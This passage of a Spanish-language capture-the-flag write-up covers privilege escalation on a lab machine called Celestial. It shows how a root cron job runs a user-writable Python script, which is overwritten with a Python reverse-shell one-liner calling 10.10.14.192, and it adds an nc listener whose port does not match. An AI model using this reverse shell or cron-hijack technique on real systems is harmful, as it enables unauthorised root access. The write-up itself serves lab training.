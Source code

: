 Dicha tarea está ejecutando el siguiente comando.

```bash
python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

Lo primero que llama la atención es el fichero con extensión **.py** el cual está siendo ejecutado por el interprete de **python** y puede representar una potencial vía para la escalada de privilegios, ya que si el fichero ejecutado cuenta con permisos de escritura para usuarios no privilegiados, podríamos sobrescribir el fichero con código malicioso que posteriormente el usuario **root** ejecuta.

El script en cuestión tiene permisos de escritura para usuarios no privilegiados, lo que permite sobrescribirlo con código malicioso.

```bash
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.192',8833));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > /home/sun/Documents/script.py
```

La máquina atacante se pone en modo escucha.

```bash
nc -lvnp 4444
```

Se espera que la tarea se ejecute, ya que esta lo hace cada 5 minutos.

<div style="text-align: center;">
  <iframe src="https://giphy.com/embed/E4pi99w43ecCV1n9jF" width="480" height="274" style="pointer-events: none" oncontextmenu="return false;" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/embed/E4pi99w43ecCV1n9jF"></a></p>
</div>
<br>

<div style="text-align: center;">
	<img src="/assets/images/Celestial/root.jpg" alt="Celestial" width="1000" oncontextmenu="return false;" />
</div>
<br>

!!Obtenemos nuestra shell como el usuario **root**!!

